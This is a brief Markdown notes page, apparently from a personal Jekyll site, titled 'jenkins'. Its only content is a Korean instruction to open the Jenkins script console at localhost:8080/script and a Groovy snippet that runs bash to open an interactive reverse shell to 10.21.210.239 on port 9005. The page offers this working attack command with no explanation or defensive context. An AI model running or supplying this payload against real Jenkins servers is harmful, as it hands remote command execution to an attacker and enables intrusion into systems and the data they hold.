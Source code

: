 ```yaml
---
layout: page
title: jenkins
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


http://localhost:8080/script 위치에 가서

```
r=Runtime.getRuntime()
p=r.exec(["/bin/bash","-c","sh -i >& /dev/tcp/10.21.210.239/9005 0>&1"] as String[])
p.waitFor()
```

